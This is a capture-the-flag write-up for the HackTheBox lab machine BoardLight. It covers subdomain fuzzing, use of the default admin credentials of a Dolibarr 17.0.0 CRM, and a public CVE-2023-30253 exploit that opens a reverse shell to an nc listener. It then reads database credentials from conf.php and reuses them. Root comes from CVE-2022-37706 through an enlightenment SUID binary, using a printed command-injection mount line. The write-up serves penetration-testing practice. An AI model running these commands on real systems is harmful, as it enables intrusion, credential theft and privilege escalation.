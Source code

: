 Let's start with nmap_

```
nmap -A -sC -sV 10.10.11.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 15:54 CEST
Nmap scan report for 10.10.11.11
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find an Apache 2.4 Web server on port 80. The site is really simple with no forms or other way to interact.
We launch feroxbuster to search files and directories on the website but with no result.

Seems there isn't much we can do here :( So let's try searching subdomains:

```
ffuf -u http://board.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.board.htb" 
```

(filtering with option -fs based on the size of all failed requests)

Wow, we found a crm subdomain. Add it to our /etc/hosts file 
```
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
10.10.11.25 greenhorn.htb
10.10.11.11 board.htb
10.10.11.11 crm.board.htb
```

And search for it on the browser :).

Seems a crm framework login page. The CRM is called Dolibar v.17.0.0. Clever thing to do is search online for possibile vulnerabilities.
Infact we find out that Dolibar <= 17.0.0 suffer php code injection (https://www.swascan.com/security-advisory-dolibarr-17-0-0/)
The blog metion the vulnerability as Authenticated PHP Code Injection so we must login to use it.

Searching online for default creds we find the classic admin admin :D, trying to login we access to the admin dashboard.

Then I found online a POC for this PHP code injection: https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

We launch the exploit specifying our target hostname, username, password, our IP, our port (for rev shell on which we are in listening mode -- nc -lnvp 9001)

```
python3 exploit.py http://crm.board.htb admin admin 10.10.14.152 9001
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

We got the shell on www-data user!

After some enumeration, using Linpeas and searching in directories we didn't find anything interesting. Then I had an idea, i searched online for
the path in which config params of Dolibarr are stored and I found juicy infos in them:

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='****';
$dolibarr_main_db_pass='********';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

Accessing mysql console with these creds we find a table with user rows. We find 2 rows for an admin and a superadmin with 2 hashes.
I tried to crack them with hashcat with no result. So I had the idea of use the DB passw found in conf file to change user.

Checking the /etc/passw file we can find out that there is a user called larissa.

I tried to login and boom we got the user!

The priv esc part is pretty easy. We upload on the machine linpeas program to enumerate possible vulns.

We find some interesting info in SUID section:

```
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
```

It is related to some utils called enlightment. Searching online we find the CVE-2022-37706, that shows the program allow local user to gain root privileges
taking advantage of a not fully secure path check (check that the path starts with /dev/):

```
${enlightment_file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

You can find the entire exploit at this link: https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main

Root owned :D
